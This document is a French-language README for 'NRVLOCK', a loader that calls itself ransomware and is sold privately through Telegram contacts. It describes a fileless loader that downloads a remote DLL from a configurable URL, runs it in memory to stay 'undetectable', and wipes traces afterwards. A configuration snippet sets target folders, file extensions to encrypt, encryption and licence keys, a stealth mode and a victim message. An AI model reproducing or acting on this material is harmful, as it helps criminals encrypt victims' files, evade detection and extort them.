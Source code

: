 🚀 Chargeur Sécurisé NRVLOCK


NRVLOCK IS A RANSOMWARE 
FOR BUY PRÍVATE NRVLOCK DLL + LICENCE KEY CONTACT ME ON TELEGRAM @CyberNev or on HF @CyberNrv

⚠️ Avertissement

© 2024 CyberNrv. Tous droits réservés.
Ce logiciel est privé et confidentiel. Le partage, la modification ou la redistribution de ce code sont strictement interdits. Toute utilisation, distribution ou analyse non autorisée de ce chargeur constitue une violation des termes définis par l’auteur.


---

🔒 Objectif

Ce chargeur est conçu pour charger NRVLOCK.dll en mémoire de manière sécurisée, sans laisser de traces sur le disque.
Il garantit une exécution furtive et une opération exclusivement en mémoire, ce qui le rend hautement efficace et indétectable.


---

🔧 Comment ça fonctionne ?

1️⃣ Télécharge la DLL NRVLOCK.dll distante depuis une URL prédéfinie.
2️⃣ Charge la DLL directement en mémoire (sans écriture sur le disque).
3️⃣ Exécute la fonction NRVRUN dynamiquement, en passant des arguments personnalisables.
4️⃣ Efface la mémoire après exécution, ne laissant aucune trace.


---

🔹 Configuration

Pour utiliser ce chargeur, remplacez les valeurs suivantes par les vôtres :

string target = "C:\\Users\\Public\\Documents";  // 📂 Répertoire cible
string extensions = ".txt;.docx";  // 📝 Extensions de fichiers à traiter
string key = "YourEncryptionKey";  // 🔑 Clé de chiffrement
string lkey = "YourLicenseKey";  // 🔏 Clé de licence
bool ViewConsole = true;  // 🖥️ Affichage de la console (true = visible, false = furtif)
string msg = "Your files have been secured!";  // ✉ Message personnalisé après exécution
string dllUrl = "https://yourserver.com/NRVLOCK.dll";  // 🔗 URL de téléchargement de la DLL NRVLOCK


---

🚀 Utilisation privée uniquement. Respectez les termes d’utilisation.
© 2024 CyberNrv. Tous
droits réservés.
